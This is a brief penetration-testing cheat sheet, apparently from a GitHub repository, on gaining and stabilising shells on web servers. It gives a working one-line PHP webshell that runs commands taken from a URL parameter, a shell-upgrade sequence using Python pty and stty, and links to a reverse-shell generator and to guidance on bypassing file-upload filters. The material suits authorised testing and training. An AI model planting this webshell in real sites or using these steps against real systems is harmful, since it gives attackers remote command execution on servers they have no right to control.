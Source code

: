 ## Intro
Who doesn't like the RCE on demand?

List webshells available on Kali
```
tree /usr/share/webshells/
```

## Revshells
Great reverse shell generator

https://www.revshells.com/

## File Upload bypass
If website blocks upload of your webshell, try this

https://book.hacktricks.xyz/pentesting-web/file-upload

## Upgrade shell
When shell works, but does not support all features
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
<CTRL+Z>
stty -echo raw
fg
stty rows 41 columns 166
```

## Apache
Basic PHP webshell
```
# Take input from the URL paramter. e.g http://<IP>/shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>
```
